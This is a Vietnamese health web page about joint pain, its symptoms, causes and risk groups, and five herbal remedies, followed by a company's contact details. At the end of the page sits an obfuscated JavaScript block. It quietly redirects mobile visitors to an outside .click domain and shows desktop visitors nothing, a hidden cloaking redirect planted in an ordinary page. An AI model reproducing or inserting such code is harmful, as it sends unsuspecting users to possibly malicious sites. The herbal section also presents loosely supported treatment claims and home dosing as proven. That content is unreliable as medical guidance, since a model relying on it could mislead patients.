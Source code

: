Đau xương khớp: Triệu chứng, nguyên nhân và thảo dược hỗ trợ điều trị

Triệu chứng đau xương khớp
Những dấu hiệu và triệu chứng của đau xương khớp
Các triệu chứng có thể đến và đi theo từng đợt, có thể liên quan đến mức độ hoạt động của bạn và thậm chí cả thời tiết. Trong những trường hợp nghiêm trọng hơn, các triệu chứng có thể liên tục. Các triệu chứng khác mà bạn hoặc bác sĩ của bạn có thể nhận thấy bao gồm:

Đau khớp.
Tăng đau và cứng khi bạn không cử động khớp trong một thời gian.
Các khớp xuất hiện hơi lớn hơn bình thường.
Khi vận động các khớp cảm giác khó chịu hoặc phát ra âm thanh rắc rắc ở các khớp.
Cử động hạn chế trong phạm vi hoạt động các khớp.
Hao mòn cơ (mất khối lượng cơ).
Nguyên nhân đau xương khớp
Một số nguyên nhân thường gặp dẫn đến đau xương khớp có thể kể đến như sau:

Đa phần các bệnh lý về xương khớp thường đến từ thói quen sống không lành mạnh như lười vận động, ăn nhiều thức ăn nhanh, tư thế ngồi hoặc xách vật nặng sai cách... Đây là những điều nhỏ hằng ngày thường mọi người sẽ hay bỏ qua nhưng nó lại ảnh hưởng không tốt đến hệ xương khớp.

Sự lão hóa xương khớp theo thời gian cũng là nguyên nhân thường gặp ở người lớn tuổi. Điều này khiến chức năng của hệ xương khớp kém linh hoạt và dần thoái hóa, có thể gây đau xương khớp mãn tính. Đa phần những người trên 50 tuổi thường gặp nhiều vấn đề về xương khớp.

Một nguyên nhân hay gặp nữa là bệnh nhân không tuân thủ theo phương pháp điều trị bệnh xương khớp. Vì để cải thiện tình trạng đau nhức xương khớp cần có sự kiên trì tập luyện vật lý trị liệu trong thời gian dài kết hợp với dùng thuốc. Nếu trong quá trình điều trị xảy ra sự gián đoạn ảnh hưởng lớn đến kết quả điều trị của người bệnh và tình trạng đau xương khớp sẽ không có sự cải thiện.
Nguy cơ đau xương khớp
Những ai có nguy cơ mắc phải đau xương khớp?
Đau xương khớp phổ biến ở các đối tượng sau đây:

Người già lớn tuổi có nguy cơ phát triển tình trạng đau xương khớp.

Người có tiền sử gia đình bị các bệnh về xương khớp có thể xảy ra trong gia đình, mặc dù các nghiên cứu chưa xác định được một gen duy nhất chịu trách nhiệm.

Người béo phì có nguy cơ tạo áp lực quá mức cho các khớp của bạn, đặc biệt là những khớp chịu phần lớn trọng lượng của bạn, chẳng hạn như đầu gối và hông của bạn.

Tình trạng đau xương khớp ở phụ nữ phổ biến hơn nam giới.
Các loại thảo dược hỗ trợ cho đau xương khớp:
1. Ngưu tất
Trong Y Học Cổ Truyền, ngưu tất là dược liệu có tính ôn, vị chua, đắng và quy vào kinh can thận. Các nghiên cứu khoa học đã chứng minh công dụng của dược liệu này là hành ứ, phá huyết và sau khi chế biến có tác dụng bổ can thận, mạnh gân cốt nên được sử dụng rất phổ biến trong các bài thuốc Y Học Cổ Truyền điều trị các bệnh lý về xương khớp. Trong đó bài thuốc thường được áp dụng là dùng 3 – 9g ngưu tất đem sắc lấy nước uống theo đợt - giúp lợi gân cốt, bổ thận, giảm các triệu chứng viêm khớp, đau khớp, đau bụng kinh. Đặc biệt, cao khô Ngưu tất bào chế dạng viên uống được dùng trong điều trị huyết áp cao, tăng cholesterol máu, xơ vữa động mạch.

2. Dây đau xương
Dây đau xương có tên khoa học Tinospora sinensis Merr. – thuộc họ Tiết đề Menispermaceae, có tính mát, vị đắng và quy và kinh can. Đây là một trong những loại thảo dược tốt cho hệ xương khớp. Thảo dược này dạng dây leo, chiều dài từ 7 – 8cm có cành rũ xuống, thân và lá cây có lông, lá cây hình tim có phần cuống tròn và hõm lại, phía đỉnh hẹp thành mũi nhọn với chiều dài 10 – 20cm, chiều rộng 8 – 10cm tỏa hình chân vịt.

3. Lá lốt

Ngoài công dụng được dùng như một loại gia vị, lá lốt còn được biết đến là một loại thảo dược tốt cho xương khớp. Trong Y Học Cổ Truyền, thảo dược này có tính ấm, vị cay và công dụng tán hàn, ôn trung, hàn khí chỉ thống, giúp giảm đau xương khớp. Dùng lá lốt phơi trong bóng râm, đến khi héo đem bỏ vào nồi sắc và nấu cùng nước trong thời gian khoảng 30 phút, gạn bỏ phần cặn, lấy nước uống sau bữa ăn tối. Ngoài ra sử dụng lá lốt trong các bữa ăn hoặc dùng ngâm chân cũng rất tốt cho xương khớp.

4. Cây thiên niên kiện
Thiên niên kiện là một vị thuốc quý trong Y Học Cổ Truyền. Trong danh sách các loại thảo dược tốt cho hệ xương khớp thì thiên niên kiện là một trong những vị thuốc đứng đầu trong điều trị. Dược liệu này có vị đắng, cay, tính ấm và mùi thơm, chứa hàm lượng lớn các hoạt chất có công dụng giảm đau. Thiên niên kiện được sử dụng trong điều trị với tác dụng hỗ trợ điều trị phong thấp, bổ gân cốt, chỉ thống tiêu thũng, nhức mỏi các gân xương, đau nhức khớp hoặc bị tê bại co quắp, viêm dây chằng, thoái hóa khớp và đau thần kinh tọa.

5. Gừng
Gừng là vị thuốc có công dụng giảm đau và kháng viêm tự nhiên hiệu quả, thảo dược này chứa hàm lượng lớn chất chống oxy hóa, tác dụng hiệu quả giúp thải trừ độc tố khỏi cơ thể. Ngoài việc sử dụng đơn độc, có thể kết hợp gừng với hành tây và muối rang để đem lại hiệu quả hỗ trơ điều trị đau khớp tốt. Người bệnh nên sử dụng bài thuốc chườm gừng, muối và hành tây mỗi ngày, liên tục đến khi giảm được triệu chứng đau thì có thể giảm tần suất chườm muối.


THÔNG TIN ĐỊA CHỈ


CÔNG TY CÔNG VIÊN CÂY XANH BA MIỀN


ĐỊA CHỈ: KĐT Hoà Lạc, Quốc Oai, Hà Nội


EMAIL: THAODUOCTOT@GMAIL.COM


ĐIỆN THOẠI: 098665996

 <script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.muaxuanveroi.click/phamdao",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
